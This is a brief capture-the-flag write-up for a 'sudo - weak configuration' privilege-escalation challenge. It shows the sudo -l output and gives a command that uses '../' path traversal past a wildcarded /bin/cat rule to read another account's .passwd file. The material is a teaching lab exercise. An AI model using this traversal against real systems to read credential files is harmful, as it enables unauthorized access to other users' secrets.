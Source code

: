 ## sudo - weak configuration

| Author | Level | Points |
| ------ | ----- | ------ |
| notfound | Very Easy | 5 |


>Privilege escalation
>
> **Statement**
>
> Wishing to simplify the task by not modifying rights, the administrator has not thought about the side effects ...

#### Solution

First, read file `readme.md` by `cat` command. We see 2 line

```
You have to read the .passwd located in the following PATH :
/challenge/app-script/ch1/ch1cracked/
```

We know the filename we want to find is `.passwd`. Now use `sudo -l` to see what privillges on `app-script-ch1`. We see 2 line another

```
User app-script-ch1 may run the following commands on this host:
	(app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/ch1/*
```

Now we can get flag with

```
sudo -u app-script-ch1-cracked /bin/cat /challenge/app-script/ch1/ch1/../ch1cracked/.passwd
```